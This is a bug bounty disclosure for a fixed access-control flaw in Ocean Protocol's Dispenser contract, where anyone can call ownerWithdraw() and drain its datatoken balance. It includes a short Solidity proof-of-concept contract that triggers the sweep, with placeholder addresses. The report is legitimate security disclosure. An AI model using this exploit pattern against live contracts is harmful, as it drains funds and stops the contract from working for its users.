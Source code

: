 # Improper Access Control on Ocean Protocol Dispenser Control

## Target: https://github.com/oceanprotocol/contracts/blob/v4main/contracts/pools/dispenser/Dispenser.sol

## Severity: Medium

## Status : Fixed

## Commit: https://github.com/oceanprotocol/contracts/commit/421894dadb7bb5b51340afe022ae716c280670f0

## Reward: $5,000

## Bug Description
The function ownerWithdraw() is not protected with proper access controls and leaves anyone to call the function and sweeps the entire balance of data token that which Dispenser contract holds.

## Permalink
https://github.com/oceanprotocol/contracts/blob/b937a12b50dc4bdb7a6901c33e5c8fa136697df7/contracts/pools/dispenser/Dispenser.sol#L253
https://github.com/oceanprotocol/contracts/blob/b937a12b50dc4bdb7a6901c33e5c8fa136697df7/contracts/pools/dispenser/Dispenser.sol#L261

## Proof Of Concept :
```
pragma solidity ^0.8.12;

interface IDispenser {
    function ownerWithdraw(address datatoken) external;
}

contract sweep {
    IDispenser dispenser = IDispenser(DISPENSER_ADDRESS);
    function sweep() external {
        dispenser.ownerWithdraw(DATATOKEN_ADDRESS);
    }
}
```
## Impact
The balance is entirely transferred to the payment collector and makes "Smart contract unable to operate due to lack of token funds".
The Token Funds are used in the dispense() function and transferred to the destination address called by users who hold the DT tokens.

## Recommendation
Need to Implement Access Control.

